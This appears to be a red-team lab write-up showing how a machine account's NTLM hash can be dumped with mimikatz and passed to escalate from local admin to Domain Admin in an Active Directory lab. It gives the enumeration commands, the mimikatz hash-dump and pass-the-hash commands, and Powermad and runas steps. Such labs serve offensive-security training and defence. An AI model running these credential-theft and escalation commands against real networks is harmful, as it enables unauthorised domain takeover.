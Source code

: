 # Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of (ideally administrators/domain administrators).

This labs is based on an assumption that you have gained local administrator privileges on a workstation (machine), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-03-19.png>)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-22-59.png>)

or administrators group (not applicable to our lab, but showing as a sidenote):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-24-07.png>)

In AD, the highlighted part can be seen here:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-36-17.png>)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-29-17.png>)

Let's check that our current compromised user `ws01\mantvydas` (local admin on ws01) cannot access the domain controller DC01 just yet:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-47-10.png>)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-52-35.png>)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](<../../.gitbook/assets/Peek 2018-12-29 15-49.gif>)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](<../../.gitbook/assets/image (162).png>)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](<../../.gitbook/assets/image (164).png>)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](<../../.gitbook/assets/image (163).png>)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}
